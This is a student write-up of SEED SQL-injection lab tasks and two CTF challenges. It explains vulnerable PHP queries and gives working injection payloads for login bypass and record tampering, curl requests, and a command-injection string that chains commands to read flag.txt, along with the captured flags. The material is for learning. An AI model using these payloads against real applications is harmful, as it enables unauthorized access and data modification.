









# Week \#8 and \#9 Tasks and Week \#8 and \#9 CTF

## Week \#8 and \#9 Tasks:

- **Task 1**: Query `SELECT * FROM credential WHERE name='Alice'` prints all the information of the employee Alice

    

- **Task 2.1**: We completed task 2.1 with two distinct methods. The first method consists of looking up the admin password hash in a sha-1 reverse lookup table. From doing so, we could find out that the password is 'seedadmin', and then we could simply login with username 'admin' and password 'seedadmin'.

    
    
    
    This task was only solvable using the first method because the admin has a simple well-known password. If that wasn't the case, we could also use another method. After inspecting the file `unsafe_home.php`, which handles the authentication, we could identify an SQL injection vulnerability.
    ```
    $input_uname = $_GET[’username’];
    $input_pwd = $_GET[’Password’];
    $hashed_pwd = sha1($input_pwd);
    ...
    $sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
    $result = $conn -> query($sql);
    ```
    Because the query takes parameters directly from the GET method, without performing any sanitization, it is possible to get authenticated as admin just by simply inputing `admin' #` as the username. This happens because the inputted single quote closes the $input_uname variable and the inputted hash sign comments the rest of the query string. Therefore, we're able to retrieve all the info from the table credential where name='admin'.

- **Task 2.2**: Since we already know the admin password, we can simply run `curl 'www.seed-server.com/unsafe_home.php?username=admin&Password=seedadmin'`.

    
    
    
    But the same result would be achieved by running `curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23'`, since it corresponds to `admin' #` but with the special characters escaped.
    
- **Task 2.3**: In order to delete a user from the database, we tried the same trick as before, by trying to log in with `1=1; DELETE FROM credential WHERE name='Ted';#` as the username. However, in doing so, we discovered a countermeasure preventing our attack. It so happens that we cannot successfully modify the database with this approach because `unsafe_home.php` uses the mysqli::query() API, which sanitizes the input.

    
    


- **Task 3.1 and 3.2**: After inpecting the `unsafe_edit_backend.php`, we came to the conclusion that the second method done in Task 3.1 could be applied.

    ```
    $hashed_pwd = sha1($input_pwd);
    $sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
    $conn->query($sql);
    ```
    
    By writting `', salary=1000000 where eid=10000;#` in any of the Edit Profile parameters, the selected parameter is set to empty string (eg: nickname='') and we're able to change Alice's salary to 1000000, leaving the rest of the query commented. Similarly, we can change Bobby's salary to 1 by writting `', salary=1 where eid=20000;#`.

    
    
## Week \#8 and \#9 CTF: 

- **Challenge 1**: After inpecting the source code for the website http://ctf-fsi.fe.up.pt:5000/, we found a SQL injection vulnerability the following code snippet:

    ```
    $username = $_POST['username'];
    $password = $_POST['password'];
               
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
    ```

    We were able to get authenticated as admin by inputting `admin  ' or 1=1;#` as username and an arbitrary string as the password, thus retrieving the flag `flag{0cb1341577598aa5a427a50c62ccb392}`.
    
    
    
- **Challenge 2**: After inspecting the website, we figured that the "PING A HOST" feature could be a point of access. We noticed that if we inputted an arbitrary string, followed by a semicolon, we could write several system calls seperated by a semicolon. After searching the directory using `cd ..` and `ls .` commands, we found a `flag.txt` file. So, in order to obtain the flag, we simply needed to write `localhost ; cd .. ; cd .. ; cd .. ; cd .. ; cat flag.txt` to obtain the flag: `flag{512edda9854fc9c24673d8cb7700cf02}`

    
